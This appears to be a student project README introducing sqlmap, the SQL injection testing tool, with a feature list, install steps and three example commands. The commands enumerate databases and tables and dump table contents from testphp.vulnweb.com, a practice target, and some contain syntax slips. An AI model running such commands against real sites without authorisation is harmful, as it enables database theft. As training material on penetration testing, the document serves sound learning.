



# SQLMAP - Database penetration

# Project name
  - Sqlmap - Database Penetration

# Technologies
- Sqlmap

# What is Sqlmap ?

Sqlmap is an open-source penetration testing tool that automates the process of detecting and exploiting SQL injection flaws and taking over of database servers. It comes with a powerful detection engine, many niche features for the ultimate penetration tester and a broad range of switches lasting from database fingerprinting, over data fetching from the database, to accessing the underlying file system and executing commands on the operating system via out-of-band connections.

# Features of Sqlmap

* supports for six SQL injection techiques: boolean-based blind, time-based blind, error-based, UNION query-based, stacked queries and out-of-band.
* supports  more than 35 DBMS.
* Supports to directly connect to database without passing via a SQL injection, by providing DBMS credentials, IP address, port and database name.
* Automatic recognition of password hash formats and support for cracking them using a dictionary-based attack.
* Support to dump database tables entirely, a range of entries or specific columns as per user's choice.
* Support to search for specific database names, specific tables across all databases or specific columns across all databases' tables.
* Support to download and upload any file from the database server underlying file system and Support to execute arbitrary commands and retrieve their standard output on the database server underlying operating system when the database software is MySQL, PostgreSQL or Microsoft SQL Server.


# Install SQLmap
  - First step is to get a Linux based Operating System
  ***
  If you are going to run SQLmap on Windows with Python, make sure you have Python installed, and skip down to the next step. Otherwise, get your Linux system fired up. Either install a Linux virtual machine (Ubuntu or Kali recommended) on Windows (Virtualbox / VMware / Parrallels) or boot up your Linux desktop.

* Second step is installation
  ***
  Python is pre-installed in Ubuntu, so all you need to do is clone the latest repository from git and start your testing.

```
git clone --depth 1 https://github.com/sqlmapproject/sqlmap.git sqlmap-dev

```

# Usage example of SQLmap

1. Attack the given URL (-u “http://testphp.vulnweb.com/”) and extract the database names (–dbs):

```
sqlmap > -u http://testphp.vulnweb.com/artists.php?artist=5 --batch --random -agent --dbs

```


2. To reach the tables of available databases use following code ( Ofcourse URL changes according to website).
```
sqlmap > -u http://testphp.vulnweb.com/artists.php?artist=5 --batch --random -agent --dbs -D acuart --tables

```


3. Use the code below to show information inside the tables.

```
sqlmap > -u http://testphp.vulnweb.com/artists.php?artist=5 --batch --random -agent --dbs -D acuart -T artists , categ --dump

```



# Team Members
* Tarek Shihab
* Aiman Najib Ahmed Abdo
* Zehra Küçükaltun

***

# references

* https://sqlmap.org/
* http://testphp.vulnweb.com/


# License

* [GNU General Public License](http://www.gnu.org/licenses/old-licenses/gpl-2.0.html)
